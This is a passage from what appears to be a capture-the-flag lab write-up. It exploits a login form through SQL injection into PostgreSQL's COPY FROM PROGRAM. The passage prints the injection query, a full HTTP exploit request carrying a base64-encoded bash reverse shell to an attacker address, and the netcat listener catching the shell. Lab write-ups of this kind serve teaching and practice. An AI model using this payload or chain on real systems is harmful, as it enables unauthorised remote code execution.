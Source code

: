 Now, to exploit the issue, we crafted the following SQL query:

```sql
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM '<your-system-commands>';
DROP TABLE IF EXISTS cmd_exec;
```

This query would create a table `cmd_exec` with one text column `cmd_output`, copy the output of a system command into the created column, and finally delete the created table.

With this knowledge, we executed the exploit:

```
POST / HTTP/1.1
Host: admin.megalogistic.com
Cookie: PHPSESSID=e7c7df4d235f97353183e4f3c5d0233b
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 197
Origin: https://admin.megalogistic.com
Referer: https://admin.megalogistic.com/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

username=enzy'+AND+password+%3d+md5('admin')%3bCREATE+TABLE+cmd_exec(cmd_output+text)%3bCOPY+cmd_exec+FROM+PROGRAM+'echo+YmFzaCAtYyAiYmFzaCAtaSA%2bJiAvZGV2L3RjcC8xMC4xMC4xNi4xNy80NDMgMD4mMSIK+|+base64+-d+|+bash'%3bDROP+TABLE+IF+EXISTS+cmd_exec%3b--&password=admin
```

This allowed us to gain shell access:

```
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.17] from (UNKNOWN) [10.10.10.236] 49793
bash: cannot set terminal process group (392): Inappropriate ioctl for device
bash: no job control in this shell
postgres@bc56e3cc55e9:/var/lib/postgresql/11/main$ 
```

# PRIVILEGE ESCALATION

Upon inspection, we discovered that we're operating within a Docker container, specifically a `boot2docker` instance.
